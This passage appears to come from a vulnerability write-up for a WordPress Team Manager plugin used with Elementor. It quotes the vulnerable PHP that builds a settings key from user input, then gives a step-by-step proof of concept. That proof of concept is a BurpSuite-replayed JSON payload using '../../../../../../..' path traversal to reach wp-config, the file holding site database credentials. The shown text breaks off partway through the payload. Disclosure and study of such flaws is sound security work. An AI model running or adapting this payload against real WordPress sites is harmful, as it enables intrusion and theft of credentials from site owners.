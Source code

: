 {{< figure src="setting.png" caption="Key settings in the request" >}}

We observe a `settings` key containing `layout_type` and `{layout_type_value}_style_type` keys corresponding to the analyzed code:

```php
$styleTypeKey = "{$layout}_style_type";
$styleType = stripslashes($settings[$styleTypeKey]);
```

👉 These values are controllable.

## Exploit

### Proof of Concept (PoC)

#### Step 1

Create a new team at endpoint: `wp-admin/post-new.php?post_type=team_manager` because a new team provides values to add to the Team Manager widget layout.

#### Step 2

Create a post using **Elementor** and add the **Team Manager widget**.

{{< figure src="widgets.png" caption="Add the Team Manager widget to a post" >}}

#### Step 3

**Submit**, capture the request with **BurpSuite** and send it to **Repeater**

#### Step 4

Modify the `action` parameter's value in the request using the Inspector and resend the payload

```json
{
  "save_builder": {
    "action": "save_builder",
    "data": {
      "status": "pending",
      "elements": [
        {
          "id": "e9249f1",
          "elType": "container",
          "isInner": false,
          "isLocked": false,
          "settings": {},
          "elements": [
            {
              "id": "3e7c95b",
              "elType": "widget",
              "isInner": false,
              "isLocked": false,
              "settings": {
                "layout_type": "../../../../../../..",
                "../../../../../../.._style_type": "wp-config"
              },
              "elements": [],
              "widgetType": "wtm-team-manager"
            }
          ]
        },
        {
          "id": "b132b28",
          "elType": "container",
          "isInner": false,
```